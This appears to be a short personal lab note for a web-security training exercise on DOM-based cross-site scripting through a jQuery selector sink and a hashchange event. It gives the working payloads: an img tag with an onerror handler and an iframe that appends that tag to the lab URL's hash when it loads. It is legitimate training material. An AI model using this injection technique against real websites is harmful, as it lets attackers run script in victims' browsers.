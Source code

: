 Lab: DOM XSS in jQuery selector sink using a hashchange event
XSS vuln on home page.
Task:deliver an exploit to the victim that calls the print() function
Analysis:
    /# in url - hashcnage event
    <img src=1 onerror=print()> -> executed pnly when event occur
    - first load the site, then load the hashchange event to execute the payload.
    <iframe src="https://0ad900b504910b1680bc3fa4004d0068.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'"></iframe>